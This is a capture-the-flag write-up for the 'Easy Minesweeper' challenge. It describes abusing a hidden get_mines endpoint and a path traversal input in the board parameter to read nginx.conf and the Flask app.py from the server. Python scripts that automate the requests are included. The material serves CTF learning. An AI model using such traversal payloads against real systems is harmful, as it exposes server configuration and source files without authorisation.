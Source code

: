 # Easy Minesweeper
Problem: https://hack.cert.pl/challenge/easy-minesweeper

_Easy Minesweeper_ is quite an interesting problem, although solving it involved a lot of guesswork. Maybe somebody else has come up with a better solution...

In the problem we are given a simple Minesweeper game, the objective is to solve the `flag` board. Of course one could try to actually solve the puzzle, but that would take far to long and it would beat the purpose of the challenge. Upon viewing the source code of the game, I quickly discovered an initially inactive endpoint `get_mines`, which returns the positions of the mines on the board. I also noticed that all of the requests to the game's endpoints were unnaturally slow (reaching even 7 seconds per request) so solving the board automatically using the mentioned above mine positions would take far to long (and it turns out that such a solution would be impossible, more on that later).

To automate my work I wrote a simple Python script that maintains a persistent session and sends the necessary requests:
```python
import requests, json

baseUrl = "https://web-minesweeper1.ecsc18.hack.cert.pl/"

sess = requests.Session()

def init_board(boardType):
	request = sess.post(baseUrl + "init_board", data={ "board": boardType })
	return json.loads(request.text)

def get_mines():
	request = sess.post(baseUrl + "get_mines")
	return json.loads(request.text)["mines"]
```

After playing around with the website for a little while, I suddenly realized that maybe the solution (which is a string of ones and zeros) is actually the binary representation of the given file. I tried out my theory with `static/style.css` and sure enough, when I created a string made up of ones and zeroes and the positions of the ones corresponded to the positions of the mines on the board (obtained from the `/get_mines` endpoint) and then converted that binary string to ASCII, I received the contents of the `static/style.css` file. Intrigued with that discovery, I quickly started testing other files, including the NGINX configuration file.

```python
board = init_board("../../../../../../../etc/nginx/conf.d/nginx.conf")
mines = get_mines()

s = list("0" * (board["width"] * board["height"]))

for mine in mines:
	s[mine] = '1'

print("".join(s))
```

The configuration file revealed that the main directory of the webapp was `/app` and after some trial and error I discovered that the Flask server was located at `/app/app.py`. After getting the contents of that file using the same method as above, I found the flag in the source code.

## Analisis of the source code
I mentioned at the beginning that a possible solution would be to click only the fields that do not contain mines using the locations of the mines obtained from `/get_mines`. It turns out that such a solution is impossible, because of this:
```python
@app.route('/get_mines', methods=['POST'])
def get_mines():
    ...
    session['failed'] = True
    ...
```

One might try to first get the flag board solution and then submit the solution from a new session, but that also is not possible, because the flag board solution is different for each session:
```python
if board == 'flag':
        board_width, board_data = parse_board(chr(32) + os.urandom(4 * 32))
    else:
        board_width, board_data = load_board('boards/%s' % board)
```
